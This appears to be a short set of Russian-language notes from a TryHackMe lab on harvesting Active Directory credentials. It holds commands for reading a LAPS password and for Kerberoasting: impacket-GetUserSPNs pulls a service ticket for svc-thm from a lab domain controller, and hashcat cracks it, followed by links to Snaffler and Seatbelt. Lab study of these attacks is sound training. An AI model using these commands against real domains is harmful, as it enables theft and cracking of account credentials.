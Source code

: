 ```powershell
net groups "THMGroupReader"
```

```powershell
Get-AdmPwdPassword -ComputerName creds-harvestin
```

___
# Kerberoasting
Kerberoasting — это распространенная атака AD для получения билетов AD , которая помогает с сохранением . Чтобы эта атака сработала, злоумышленник должен иметь доступ к учетным записям SPN  (Service Principal Name)  , таким как IIS User, MSSQL и т. д. Атака Kerberoasting включает запрос билета на предоставление билетов ( TGT ) и службы предоставления билетов (TGS).
```bash
impacket-GetUserSPNs -dc-ip 10.10.143.7 THM.red/thm
```

```bash
impacket-GetUserSPNs -dc-ip 10.10.143.7 THM.red/thm -request-user svc-thm
```

```bash
hashcat -m 13100 /tmp/hash /usr/share/wordlists/rockyou.txt 
```
___

```http
https://github.com/SnaffCon/Snaffler
https://github.com/GhostPack/Seatbelt
```

